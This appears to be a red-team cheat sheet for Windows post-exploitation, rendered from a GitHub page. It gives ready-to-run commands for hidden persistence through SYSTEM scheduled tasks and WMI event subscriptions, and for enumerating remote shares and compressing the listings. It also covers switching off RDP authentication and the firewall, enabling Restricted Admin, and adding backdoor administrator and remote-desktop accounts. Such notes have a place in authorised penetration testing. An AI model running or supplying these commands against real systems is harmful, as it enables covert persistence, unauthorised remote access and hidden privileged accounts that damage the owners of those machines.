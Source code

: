 ### Scheduled Task
upload exe file to somewhere in %SystemRoot%\System32
schtasks /create /f /tn [name] /ru system /tr [path to exe] /sc ONSTART
schtasks /create /f /tn [name] /ru system /tr [path to exe] /sc DAILY /st [hh:mm]
- check with schtasks /query /tn [name] /fo list /v
    
- run manually with schtasks /run /tn [name]
    
  
### WMI Event
upload exe file to somewhere in %SystemRoot%\System32
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="[name]", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
  
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="[name]", ExecutablePath="[executable]",CommandLineTemplate="[executable]"
  
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"[name]\"", Consumer="CommandLineEventConsumer.Name=\"[name]\""
  
# Recursive File Listing
dir /s /a \\[host]\[path] > [logfile]
forfiles /s /c "cmd /c echo @path" /p [path] > [logfile]
  
makecab [logfile] [compressed].zip
extract [compressed].zip [logfile]
  
# Enable Command Prompt
reg add HKCU\Software\Policies\Microsoft\Windows\System /v DisableCMD /t REG_DWORD /d 0 /f
  
# Enable Remote Desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f
  
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
  
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
  
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
OR
netsh advfirewall set allprofiles state off
  
sc start TermService
  
# User Creation
### Local
net user [username] [password] /add
net localgroup Administrators [username] /add
net localgroup "Remote Management Users" [username] /add
net localgroup "Remote Desktop Users" [username] /add
  